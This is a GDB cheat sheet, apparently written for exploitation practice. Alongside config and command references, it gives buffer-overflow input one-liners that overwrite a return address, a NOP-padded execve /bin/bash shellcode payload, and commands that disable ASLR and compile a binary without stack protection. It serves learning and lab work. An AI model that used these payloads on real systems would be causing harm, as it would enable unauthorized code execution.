 
## Documentation
* [Debugging with GDB](https://sourceware.org/gdb/current/onlinedocs/gdb.html/)
    * [Single Page](https://sourceware.org/gdb/current/onlinedocs/gdb)
    * [PDF](https://sourceware.org/gdb/current/onlinedocs/gdb.pdf)

## Config

in ~/.gdbinit

```bash
set history save on
set disassembly-flavor intel
set disassemble-next-line on

unset env LINES
unset env COLUMNS
```

## Commands

| Command | Description | Example |
|------|-------|------|
| r / run | Run the program | |
| c / continue | Continue the execution | |
| b / break | Add a breakpoint | b * main + 10 |
| info breakpoints | Show breakpoints | |
| info functions | List the functions | |
| disas / disasemble | Show disasembled code | disas main |
| p / print | print a value | p $rax |
| info registers | Show the registers and their value | |
| find | Search the memory | find 0x41414141 (find a bunch of As) |
| x | Examine the memory at a location | x/s $rax (Shows the string at rax) |



## Running

* Use file content
    * `run < /tmp/somefile`
* Sending stdin data in GDB
    * `run < <(python -c "print 'A' * 40 + '\xef\xbe\xad\xde'")`
* Sending address without needing to convert to little endian first
    * `run < <(python -c 'import struct;  print "A"*40 + struct.pack("<L", 0xdeadbeef)')`
* Sending some shell code with padding NOPs
    * `python -c "from struct import pack; print '\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'.ljust(140,'\x90') +  pack('<L', 0xffffd0e0)"  > /tmp/var`

## Misc

### Disable ASLR
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
gcc test.c -o test  -fno-stack-protector -z execstack -m32
```

